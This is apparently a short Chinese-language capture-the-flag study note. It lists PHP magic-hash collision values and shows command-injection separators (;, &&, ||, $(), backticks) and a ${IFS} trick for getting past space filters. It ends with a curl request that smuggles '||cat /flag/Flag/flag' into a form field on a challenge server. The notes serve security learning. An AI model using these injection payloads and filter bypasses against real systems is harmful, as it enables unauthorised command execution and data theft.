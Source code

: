 ```php=
0e509367213418206700842008763514
  
s1836677006a
0e481036490867661113260034900752
  
s1665632922a
0e731198061491163073197128363787
  
s878926199a
0e545993274517709034328855841020
 
```

## Command injection

簡單來說它就是利用一個分號```;```來讓前一個指令閉合，當然還有其他的像是：
- &&ls
- ||ls
- $(ls)
- \`ls\`

如果題目有擋空格，可以用${IFS}來替代空格

![](https://i.imgur.com/p6HLWkp.png)


## vtim_cmdi

``` curl -d "url=||cat /flag/Flag/flag" "http://140.110.112.32:31339" ```


